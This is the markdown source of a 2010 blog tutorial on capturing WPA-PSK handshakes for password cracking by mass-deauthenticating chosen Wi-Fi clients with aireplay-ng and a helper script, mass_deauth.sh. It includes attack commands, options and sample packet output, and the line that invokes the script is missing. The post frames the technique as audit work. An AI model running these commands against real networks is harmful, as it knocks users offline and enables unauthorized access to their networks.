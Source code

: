 ```yaml
---
layout: post
title: "Capturing the WPA handshake using mass deauthentication"
date: 2010-12-20 18:10:26 -0400
comments: true
categories: coding howto hacking
redirect_from: /2010/12/capturing-wpa-handshake-using-mass.html
---
```


Capturing the 4-way handshake required to crack WPA-PSK can be a bit frustrating when you can't get a client to deauthenticate and reauthenticate with the access point. One option is to deauthenticate all the clients by not providing the client's MAC address when running the deauthentication attack:

<!--more-->

```
aireplay-ng -0 1 -a 00:0F:66:XX:XX:XX mon0
```

This is a bit overkill since you might not want to knock out all the clients on the network when performing an audit. The alternative is to target different clients and hope one of them deauthenticates and reauthenticates. This can be time consuming as you'll be picking one client, trying it, then picking another if it doesn't work. 

To solve this problem, I've written a little script that lets you deauthenticate several targeted clients and increases your chances of the deauthentication attack working. 

You can grab the latest version from [GitHub](https://github.com/superkojiman/mass_deauth).

Let's take a look at a sample WPA-PSK network captured by airodump-ng:

```
 CH  6 ][ Elapsed: 11 mins ][ 2010-12-20 14:51
 
 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID
 
 00:0F:66:XX:XX:XX  -60   4      130     3917    2   6  54   WPA  TKIP   PSK  prime2
 
 BSSID              STATION            PWR   Rate    Lost  Packets  Probes
 
 00:0F:66:XX:XX:XX  00:26:BB:XX:XX:XX  -46   54 -54     51     1716
 00:0F:66:XX:XX:XX  00:13:E8:XX:XX:XX  -46   54 -12     18      219
 00:0F:66:XX:XX:XX  00:1B:77:XX:XX:XX  -47   36 -24      0     1217
 00:0F:66:XX:XX:XX  C4:46:19:XX:XX:XX  -57    1 - 1      1      740
 00:0F:66:XX:XX:XX  00:19:D2:XX:XX:XX  -62    1 - 1      0      223
 00:0F:66:XX:XX:XX  18:E7:F4:XX:XX:XX  -65    1 - 1      0        7
```
 
Our target access point is called prime2 and it has six clients connected to it. Let's say we want to deauthenticate the last four on that list. The fastest way to do that is to just copy and paste those lines into a file. Call it target_list.txt. It should look like this:

```
 00:0F:66:XX:XX:XX  00:1B:77:XX:XX:XX  -47   36 -24      0     1217
 00:0F:66:XX:XX:XX  C4:46:19:XX:XX:XX  -57    1 - 1      1      740
 00:0F:66:XX:XX:XX  00:19:D2:XX:XX:XX  -62    1 - 1      0      223
 00:0F:66:XX:XX:XX  18:E7:F4:XX:XX:XX  -65    1 - 1      0        7
```

Next, run mass\_deauth.sh and pass it target\_list.txt:

A quick explanation on what the options mean. 

* -i is the interface we're using. In this case, mon0
* -t is the file containing the clients, target_list.txt
* -a: is the access point's MAC address.
* -n is the number of deauthentication packets to send. If you don't use -n it defaults to 1. In this case, we're going to send 5 deauthentication packets.

Run the command and you should get output similar to the following for each targeted client:

```
Attempting to deauthenticate 90:4C:E5:XX:XX:XX...
Command: aireplay-ng -0 5 -a 00:0F:66:XX:XX:XX -c 90:4C:E5:XX:XX:XX mon0
14:34:15  Waiting for beacon frame (BSSID: 00:0F:66:XX:XX:XX) on channel 6
14:34:16  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [26|45 ACKs]
14:34:16  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [47|42 ACKs]
14:34:17  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [48|43 ACKs]
14:34:17  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [45|37 ACKs]
14:34:18  Sending 64 directed DeAuth. STMAC: [90:4C:E5:XX:XX:XX] [29|50 ACKs]
 
Attempting to deauthenticate C4:46:19:XX:XX:XX...
Command: aireplay-ng -0 5 -a 00:0F:66:XX:XX:XX -c C4:46:19:XX:XX:XX mon0
14:34:24  Waiting for beacon frame (BSSID: 00:0F:66:XX:XX:XX) on channel 6
14:34:25  Sending 64 directed DeAuth. STMAC: [C4:46:19:XX:XX:XX] [ 7|51 ACKs]
.
.
.
```

With any luck, at least one of the clients you targeted should have deauthenticated and reauthenticated, thus allowing you to capture the 4-way handshake. If not, give it another go and maybe increase the number of deauthentication packets sent and see if that helps. 

